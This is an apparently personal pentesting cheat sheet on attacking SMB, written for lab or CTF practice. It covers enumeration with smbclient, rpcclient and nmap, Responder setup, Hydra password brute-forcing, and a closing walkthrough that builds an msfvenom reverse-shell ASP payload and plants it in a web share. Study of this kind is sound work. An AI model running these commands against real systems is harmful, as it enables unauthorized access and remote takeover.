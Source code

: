 ## SMB
Server Message Block

### Info
- can be enumerated with nmap scripts

### Versions
- **SMB1**: Very old, not secure and should be disabled. 
  - Attacks: (EternalBlue, EternalRomance, EternalSynergy, EternalChampion, EternalRock, SambaCry, WannaCry, Petya, NotPetya, etc.)

- **SMB2**: Introduced in Windows Vista and Windows Server 2008. Less chatty. Guest access is disabled by default.
- **SMB3**: Introduced in Windows 8 and Windows Server 2012. Most secure. Uses AES encryption. Need User authentication.

### Ports And Infos:
- **Port 139**: SMB1, NetBIOS Session Service
  - SMB1 Hostname must be provided \\host1\files
- **Port 445**: SMB1 and SMB2 Microsoft-DS \\ Active Directory, Windows shares, etc.
  - can use IP address \\192.193.1.231\files

### Enumerated by tools:
- **enum4linux**: Enumerates SMB shares on Windows and Linux systems.
- Nmap scripts: smb-enum-shares, smb-enum-users, smb-os-discovery, smb-security-mode, smb-vuln-*, etc.
- smbclient: Command-line tool to access SMB shares.
- rpcclient: Command-line tool to access Windows RPC services.

### Common Shares:
- **IPC$**: Inter-Process Communication share.
- **C$**: Drive C. of the remote host
- **Admin$**: Access to the Windows folder.

if ipc is available you can do for example: eternalblue

### To Try in Pentesting:
- Can i acces SMB as guest?
- Can I bruteforce usernames/ passwords
- Can I read/write to shares?
- Can I access my written file to execute shells?

### SMB Responder: 

-I choose network interface (In the context of Responder, 

```sh
git clone https://github.com/lgandx/Responder
```
Verify that the Responder.conf is set to listen for SMB requests.

edit resolver conf if necessary

```sh
cat Responder.conf
```
```
sudo python3 Responder.py -I tun0

Specifying -I tun0 means that Responder will listen for network requests coming through the tun0 interface. 
This could be useful if you're running Responder on a system that's connected to a VPN, 
and you want Responder to only interact with network traffic that's coming over the VPN connection.)

```
server is now listening


### SMBClient

#### Options
-L : List available shares on the target.

-U : Login identity to use.

Onfound username:
$ = Signalised t

#### Installation
```sh
sudo apt install smbclient
```


#### Commands
```sh 
get "flag.txt" #to get the flag
```

#### Examples
```sh
smbclient  -N -L 10.129.206.31
#-N : No password
#-L : This option allows you to look at what services are available on a server
smbclient -N \\\\10.129.206.31\\backups #anonamous access to backups

smbclient -L 10.129.206.31 -U Administrator

smbclient \\\\10.129.206.31\\ADMIN$ -U Administrator #with folder ADMIN$
smbclient \\\\10.129.206.31\\AC$ -U Administrator #with folder C
```

### RPC Client
Can also use as cli for smb

opens a shell
```shell
queryuser 500 #administrator infos
queryuser 1000 #first User on machine
```

### Bruteforce access

```shell
#this can take long
hydra -l IEUSER -P /usr/share/wordlists/rockyou.txt smb #bruteforce smb
```

### Nmap with SMB Username and password
This delivers more details in enumeration
```shell
nmap -script smb-enum* --script-args smbusername=IEUSER,smbpass=Password$ -p445 192.254.1.102
```

### Tipps in pentesting
- If folder is webfolder maybe possible to put files there via some smb user
- typically somethink like **wwwroot**

## Reverse Shell over SMB:
1. Create reverse shell with msfvenom
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.254.1.229 LPORT=4444 -f asp > shell.asp
```
2. That creates an asp shell script which can be
3. Accepting the shell with metasploit:
```shell
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.254.1.228; set lport 4444; run -j"
```
4. Put  the shell.asp in webfolder of the smb share.
5. Than open it in browser to execute the shell.
